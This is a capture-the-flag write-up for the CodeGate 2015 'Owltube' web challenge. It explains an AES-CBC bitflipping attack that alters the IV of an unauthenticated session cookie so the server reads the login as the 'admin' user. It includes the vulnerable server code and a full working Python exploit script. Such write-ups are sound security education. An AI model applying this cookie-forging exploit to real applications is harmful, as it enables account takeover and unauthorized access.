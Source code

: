 # CodeGate General (preliminaries) CTF 2015: Owltube

**Category:** Web
**Points:** 400
**Description:** 

> You're welcome to betatest our new social media site, it's going to be the next big thing.
> 
> Server : http://54.64.164.100:5555/
> Script : [http://binary.grayhash.com/2a0182588cf5550cebb49876d94c7a2f/index.py](index.py)
> 
> - option : please check the notice board.

## Write-up

The challenge consists of a python Tornado web application using mongodb and allows users to register, login and add links to youtube videos.
User sessions are managed through an authentication cookie that is constructed as follows:

>```python
>def set_cookie(resp, cookie):
>	cookie = json.dumps(cookie)
>
>	iv = Random.new().read(BS)
>	aes = AES.new(SECRET_KEY, AES.MODE_CBC, iv)
>	cookie = pad(cookie)
>	cookie = iv + aes.encrypt(cookie)
>	cookie = cookie.encode("base64")
>	cookie = cookie.replace("\n", "")
>
>	resp.set_cookie("auth", cookie)
>```

The cookie value passed to set_cookie is set, upon successful login, to a json representation of the following dictionary:

>```python
>	u = {}
>	u["u"] = request.form.get("user")
>	u["pw"] = request.form.get("pw")
>```

The vulnerability here resides in the fact that the cookie is encrypted using AES in Cipher Block Chaining (CBC) mode. In CBC mode, each block of plaintext is XORed to the previous block of ciphertext before being encrypted, using a random IV for the first block of plaintext. Conversely, upon decryption, each block of ciphertext is decrypted and subsequently XORed to the previous block of ciphertext (or the IV in case of the first block) to yield the final decrypted block.

![alt cbc_decryption](cbc_decryption.png)

Since CBC mode comes with no authentication mechanism (eg. a MAC, signature, etc.) the application has no means to detect if the encrypted data it processes has been altered or not by a malicious client. This allows us to perform a bitflipping attack on our encrypted cookie. Flipping a byte in a ciphertext block will corrupt the corresponding decrypted block but produce a corresponding flip in the byte at the same block-offset within the subsequent block. Hence, given a known plaintext byte at offset i in the plaintext, we can alter the byte at offset i in the final decryption result by flipping byte (i-block_size) of the ciphertext (or byte i of the IV if i < block_size).

Since the decryption result must always be a valid json string, we cannot afford corrupting the ciphertext itself and hence are restricted to flipping the first 16 bytes of the plaintext by corrupting the IV only. We can set bytes at offsets 0..15 in the decryption result to our target text by corrupting the IV in the following manner:

>```python
>iv[i] = chr(ord(known_plaintext[i]) ^ ord(iv[i]) ^ ord(target_text[i]))
>```

This, of course, requires known plaintext for at least the first 16 bytes. If we register a user, we know the full plaintext of the cookie:

>```python
>{"u": "username", "pw": "password"}
>```

In the application source we can see the following code for the index:

>```python
>def index():
>	if is_logged_in():
>		videos = []
>		for i, vid in enumerate(g.db.videos.find({"user": g.user["u"]})):
>```

We will try to construct a cookie with a plaintext that allows us to achieve successful login as the user "admin" (which we guessed to be the target account for flag retrieval, since it was the only username always taken while the rest of the usernames were periodically wiped from the database). If we register a user with username "x" and password "admin", our known plaintext will be:

>```python
>{"u": "x", "pw": "admin"}
>```

We want to flip this to the following in order to eliminate the "pw" field so we can achieve successfull login:

>```python
>{"u":  "x", "u": "admin"}
>```


The [final exploit](solution/owltube_exploit.py) is as follows:

>```python
>#!/usr/bin/python
>#
># CODEGATE General CTF 2015
># OWLTUBE (WEB/400) Exploit
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>import requests
>from Crypto.Cipher import AES
>
>BS = AES.block_size
>
>class exploit:
>	def __init__(self):
>		self.r = None
>		self.cookies = None
>		return
>
>	def getAuthcookie(self):
>		if(self.cookies):
>			return self.cookies['auth']
>		else:
>			return None
>
>	def login(self, url, username, password):
>		payload = {'user': username, 'pw': password}
>		self.r = requests.post(url + '/login', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def register(self, url, username, password, email):
>		payload = {'user': username, 'pw': password, 'email': email}
>		self.r = requests.post(url + '/register', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def visit(self, url, authcookie):
>		cookie = {'auth': authcookie}
>		self.r = requests.get(url, cookies=cookie)
>		return (self.r.text, self.r.status_code)
>
>email = "x@x"
>username = "x"
>password = "admin"
>
>url = 'http://54.64.164.100:5555'
>
>sploit = exploit()
>
>sploit.register(url, username, password, email)
>sploit.login(url, username, password)
>
>cookie = sploit.getAuthcookie()
>(iv, e) = (cookie.decode('base64')[:BS], cookie.decode('base64')[BS:])
>
>print "[+]Cookie: [%s]" % cookie
>print "[+]IV: [%s]" % iv.encode('hex')
>print "[+]Ciphertext: [%s]" % e.encode('hex')
>
>plaintext = '{"u": "x", "pw": "admin"}'
>targetext = '{"u":  "x", "u": "admin"}'
>
>iv2 = list(iv)
>for i in range(0, 16):
>	iv2[i] = chr(ord(plaintext[i]) ^ ord(iv2[i]) ^ ord(targetext[i]))
>
>iv2 = "".join(iv2)
>
>cookie = (iv2 + e).encode("base64").replace("\n", "")
>
>(t, s) = sploit.visit(url, cookie)
>
>print t
>```